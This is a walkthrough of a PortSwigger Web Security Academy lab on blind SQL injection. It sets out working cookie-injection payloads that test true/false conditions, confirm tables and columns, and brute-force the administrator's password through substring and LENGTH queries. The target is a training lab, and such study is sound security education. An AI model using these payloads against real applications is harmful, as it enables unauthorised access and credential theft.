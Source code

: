 # Write-up: Blind SQL injection with conditional responses

![logo](img/logo.png)

This write-up for the lab *Blind SQL injection with conditional responses* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![Lab description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In the example case, the cookie contains this content
`Cookie: TrackingId=qnLH78fKAPMJdjw7; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

#### The good case

For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Results in "Welcome back"

#### The bad case

For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Does not result in "Welcome back"

As we found a vulnerable parameter, I omit the session value from now on.

### Confirm expected table

First I confirm that the `users` table exists. For this, I select a string literal from the table and compare the result to the literal.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

--> Results in "Welcome back"

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

--> NO "Welcome back"

### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

--> Results in "Welcome back". Negative case with a different column name verified.

### Get the length of the password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

--> NO "Welcome back", the password is not of length 1

As an alternative, I can check with '>' instead of '='. It results in the "Welcome back" message meaning the password is longer than 1 character.

I Brute force the length with Burp Intruder (Sniper, Payload is '1' argument in query)

![Enumerate the length of the password](img/length_of_password.png)

![Enumerate length of password full results](img/length_of_password_result.png)

--> Password is exactly 20 characters long

### Enumerate password of the administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow, but scripting it in python is not difficult either.

![Enumerate the first character of the password](img/enumerate_password_first.png)

The first character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*

![Cluster bomb setup](img/enumerate_password_cluster_bomb.png)

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters

This results in these responses with the 'Welcome Back' message:

![Result of password enumeration](img/enumerate_password_result.png)

Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

## Try login

With the credentials obtained I log in and the lab updates to

![Login successful](img/Win.png)
